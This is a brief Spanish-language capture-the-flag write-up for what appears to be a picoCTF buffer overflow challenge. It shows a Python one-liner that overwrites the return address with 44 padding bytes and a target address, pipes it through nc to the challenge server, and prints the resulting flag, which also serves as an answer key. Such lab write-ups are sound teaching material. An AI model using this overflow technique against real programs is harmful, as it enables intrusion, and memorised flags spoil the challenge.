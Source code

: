 ## Objetivo
Control the return address

Additional details will be available after launching your challenge instance.
## Solución
En este reto nos dan un comando para conectarnos al reto y obtener la flag asi que nos conectamos y vemos que nos pide:

Al parecer nos pide un string
```
Please enter your string: 
```

El reto nos da el código del programa asi que lo analizamos para ver si encontramos algo, guisándonos por el nombre suponemos que es un desbordamiento de memoria asi que investigamos como hacerlo.

Y encontramos el código o script:
```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08'+b'\n')"
```

El cual concatenamos con nc para ejecutarlo en el programa dandonos la flag:
```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xf6\x91\x04\x08'+b'\n')" | nc saturn.picoctf.net 51908
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}%    
```

Flag:
```
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```
## Notas adicionales
## Referencias
